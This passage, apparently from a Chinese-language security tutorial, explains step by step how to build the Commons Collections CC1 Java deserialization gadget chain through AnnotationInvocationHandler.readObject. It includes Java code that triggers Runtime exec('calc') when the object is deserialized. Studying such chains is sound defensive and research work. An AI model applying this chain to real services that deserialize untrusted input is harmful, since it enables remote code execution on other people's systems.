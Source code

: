 ![image.png](image8.png)

接下来就是找那里调用了`setValue`

最好找到既能序列化还实现了`readObject`方法还在`readObject`里面调用了`setValue`，这样就能反序列化和序列化了，就不用找了，最后找到了

`AnnotationInvocationHandler.readObject`

![image.png](image9.png)

现在需要执行到这个`AnnotationInvocationHandler.readObject` 因为不是公开类所以使用反射调用

执行到`readObject` 要执行`setValue` 还要过两层`if`

第一层要求：`memberType != null`

`memberType` ←`memberTypes`

`memberTypes`← `annotationType` 

`annotationType`  ← `type`

`type`是传入的注解

`annotationType = AnnotationType.getInstance(type);` 这行代码的作用是**获取与注解类型 `type` 对应的 `AnnotationType` 实例**

`Map<String, Class<?>> memberTypes = annotationType.memberTypes();` 这行代码的作用是**获取注解类型中所有成员方法的 “方法名 - 返回类型” 映射**

而

`String name = memberValue.getKey();`

`Class<?> memberType = memberTypes.get(name);` 

就是从`memberTypes` 中根据`key`获取值,然后给`memberType` 

也就是说传入的`map`的`key`要是传入的注解的键，这样才能根据key查到不为null的`memberType` 

![image.png](image10.png)

使用下面的代码输出一下`Target` 的键值

![image.png](image11.png)

所以传入的`map`的`key`需要是`value`

修改一下代码

```java
public void annotationInvocationHandler() throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"}
        );
        HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
        objectObjectHashMap.put("value","b");
        Map<Object,Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, invokerTransformer);
        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, decorate);
        serializable(o);
        unserializable("ser.bin");
    }
```
